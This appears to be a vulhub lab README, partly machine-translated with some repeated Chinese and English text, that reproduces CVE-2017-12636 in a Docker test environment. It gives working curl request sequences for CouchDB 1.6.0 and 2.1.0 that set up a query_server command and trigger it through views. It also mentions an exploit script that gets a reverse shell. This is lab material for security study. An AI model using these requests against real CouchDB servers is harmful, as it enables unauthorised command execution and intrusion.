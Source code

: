 # Couchdb Arbitrary Command Execution Vulnerability (CVE-2017-12636)

Apache CouchDB is an open source database that focuses on ease of use and becomes "a database that fully embraces the web." It is a NoSQL database that uses JSON as the storage format, JavaScript as the query language, MapReduce and HTTP as the API. Widely used, such as the BBC used in its dynamic content display platform, Credit Suisse uses the market framework of its internal merchandise department, Meebo, used in its social platforms (web and applications).

On November 15, 2017, CVE-2017-12635 and CVE-2017-12636 disclosed that CVE-2017-12636 is an arbitrary command execution vulnerability. We can modify the configuration of the couchdb by the config api `query_server`. It will be run when designing and executing the view.

Impact version: less than 1.7.0 and less than 2.1.1

Reference link:

 - http://bobao.360.cn/learning/detail/4716.html
 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html

## test environment

Couchdb 2.x and 1.x API interfaces are different, so this vulnerability is used in different ways. This environment starts with version 1.6.0. If you want to test version 2.1.0, you can start [CVE-2017-12635] (https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017 -12635) The attached environment.

Execute the following command to start the Couchdb 1.6.0 environment:

```
Docker-compose up -d
```

After the startup is complete, visit the http://your-ip:5984/` to see the Welcome page of Couchdb.

## Vulnerability recurrence

The vulnerability is triggered by the need to log in to the user. If you do not know the target administrator password, you can use [CVE-2017-12635] (https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017- 12635) First add an administrator user.

Description under ### 1.6.0

You can trigger any command execution by executing the following requests in sequence:

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

![](1.png)

Among them, `vulhub:vulhub` is the administrator account password.

The first request is to add a `query_servers` with the name `cmd`, which has the value ``id >/tmp/success"`, which is the command we are going to execute later.

The second and third requests are to add a Database and a Document, which can be queried after adding it here.

The fourth request is to query in this Database, because I set the language to `cmd`, here I will use the `query_servers` named `cmd` added in my first step, and finally trigger the command to execute.

Description under ### 2.1.0

2.1.0 modified the two APIs I used above, which need to be explained in detail here.

Couchdb 2.x introduces a cluster, so modifying the configured API requires adding a node name. This is actually simple, we can use the account password to access `/_membership`:

```
Curl http://vulhub:vulhub@your-ip:5984/_membership
```

![](1.png)

Visible, we only have one node here, the name is `nonode@nohost`.

Then, we modify the configuration of `nonode@nohost`:

```
Curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![](2.png)

Then, in the same way as 1.6.0, we first add a Database and a Document:

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

Couchdb 2.x removed `_temp_view`, so we need to add a `_view` to trigger the commands defined in `query_servers`:

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

The command in `query_servers` is triggered by adding `_view`.

## Using scripts

Write a simple script [exp.py] (exp.py), modify the target and command for your test machine, then modify the version to the corresponding Couchdb version, successfully bounce the shell:

![](3.png)